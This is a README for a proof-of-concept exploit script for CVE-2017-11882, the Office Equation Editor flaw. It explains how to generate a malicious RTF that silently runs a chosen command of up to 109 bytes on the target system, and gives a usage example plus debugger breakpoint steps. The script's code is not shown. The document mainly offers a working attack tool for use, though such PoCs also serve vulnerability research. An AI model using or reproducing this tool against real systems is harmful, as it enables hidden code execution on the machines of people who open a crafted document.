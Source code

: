 # CVE-2017-11882 Exploit

CVE-2017-11882 Exploit accepts 109 bytes long command in maximum.

This exploit will call WinExec with SW_HIDE and call ExitProcess after WinExec returns.

I cannot find a reference for the object structure...so I cannot change the file length for arbitrary length code execution..:(

Please issue me if you know how to enlarge the payload , thanks.

## Usage
```
usage: CVE-2017-11882.py [-h] -c CMD -o OUTPUT

PoC for CVE-2017-11882

optional arguments:
  -h, --help            show this help message and exit
  -c CMD, --cmd CMD     Command run in target system
  -o OUTPUT, --output OUTPUT
                        Output exploit rtf
```

Example:

```
CVE-2017-11882.py -c cmd.exe -o test.rtf
```
## Debug

 1. Set debugger value to your debugger path in HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\EQNEDT32.EXE

 2. Build a exploit and run it.
 
 3. Set break point at 0x41165f
 
 4. This break point will be hit twice, at second time the payload will be executed after this function returned.
